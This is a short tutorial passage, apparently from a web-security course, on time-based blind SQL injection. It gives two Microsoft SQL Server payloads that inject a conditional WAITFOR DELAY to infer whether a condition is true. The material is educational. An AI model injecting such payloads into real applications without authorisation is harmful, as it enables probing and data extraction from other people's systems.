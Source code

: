 # Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server,
you can use the following to test a condition and trigger a delay depending on whether the expression is true:
```bash
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
```bash
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
